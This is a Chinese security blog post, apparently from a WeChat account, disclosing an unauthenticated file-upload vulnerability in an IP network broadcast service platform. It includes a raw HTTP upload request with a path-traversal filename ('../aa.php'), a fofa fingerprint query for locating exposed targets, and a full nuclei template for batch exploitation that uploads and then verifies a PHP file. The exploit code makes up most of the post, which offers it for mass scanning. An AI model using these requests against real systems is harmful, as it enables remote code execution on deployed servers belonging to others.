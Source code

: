 #  IP广播服务平台未授权文件上传getshell-0Day附批量POC   
原创 Ting丶  Ting的安全笔记   2024-08-03 11:51  
  
web.icon=="9091011a03bffd9898d79fc589a2c65d"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vekxpygAESrdWqDMuSCA0hcnlibOTEpRem6aiadOpDbtNEzLK63icJcMaaLyiaz5Ck5rn6TmUnj9URWSA/640?wx_fmt=png&from=appmsg "")  
  
# 复现详细步骤  
```
POST /api/v2/remote-upgrade/upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryruvtJJYIs63ReAhU
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 195

------WebKitFormBoundaryruvtJJYIs63ReAhU
Content-Disposition: form-data; name="file"; filename="../aa.php"
Content-Type: application/octet-stream


------WebKitFormBoundaryruvtJJYIs63ReAhU--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vekxpygAESrdWqDMuSCA0hcP6icaRvhrrG8ekuenSXcuEpU5ODJ89VanicS3jsO7c9vN3Yputc3ELTQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vekxpygAESrdWqDMuSCA0hcdpJleMCtoq6CoiaPxiaibTY5p4aSNGG9apicCozfesBvxVaiasgSsqtYv1w/640?wx_fmt=png&from=appmsg "")  
  
审计过程：  
  
如图获取文件上传接口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vekxpygAESrdWqDMuSCA0hcL11AMoczlCWaIzhib81o4e1MYe3mtYGJgWZ9VAcEIbtRtMhiceNZv1ng/640?wx_fmt=png&from=appmsg "")  
  
文件处理函数钟未对上传的文件进行校验  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vekxpygAESrdWqDMuSCA0hcafBcFRtCzImWZtNnCvSwgNnFb5RoxtDhErrzlDichW5PpkXpgic47zVw/640?wx_fmt=png&from=appmsg "")  
```
id: ip-broadcast-service-platform-file-upload

info:
  name: IP网络广播服务平台文件上传漏洞
  author: Ting
  severity: critical
  description: |
    IP网络广播服务平台文件上传漏洞
  reference:
    - https://
  metadata:
    verified: true
    max-request: 1
    fofa-query: 'icon_hash="-568806419"'
  tags: rce,upload,php
http:
  - raw:
    - |
      POST /api/v2/remote-upgrade/upload HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
      Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryruvtJJYIs63ReAhU
      Accept: */*
      Accept-Encoding: gzip, deflate, br
      Accept-Language: zh-CN,zh;q=0.9
      Connection: keep-alive
      Content-Length: 195
      
      ------WebKitFormBoundaryruvtJJYIs63ReAhU
      Content-Disposition: form-data; name="file"; filename="../aa.php"
      Content-Type: application/octet-stream
      
      <?php echo md5(1);unlink(__FILE__);?>
      ------WebKitFormBoundaryruvtJJYIs63ReAhU--
      
    - |
      GET /uploads/remote_upgrade/{{filepath}}.php HTTP/1.1
      Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: word
        part: body_2
        words:
          - 'c4ca4238a0b923820dcc509a6f75849b'
        condition: and
    extractors:
      - type: regex
        name: filepath
        group: 1
        internal: true
        regex:
          - '\\/remote_upgrade\\/(.*)\.php'

```  
  
可后台回复**20240803**获取nuclei-yaml  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vekxpygAESrdWqDMuSCA0hcicK8b7OvsI6vyPDGwpRgdTTONIoEjnVSCQYDKwMZDGHj6diaVgE9GEiaA/640?wx_fmt=png&from=appmsg "")  
  
  
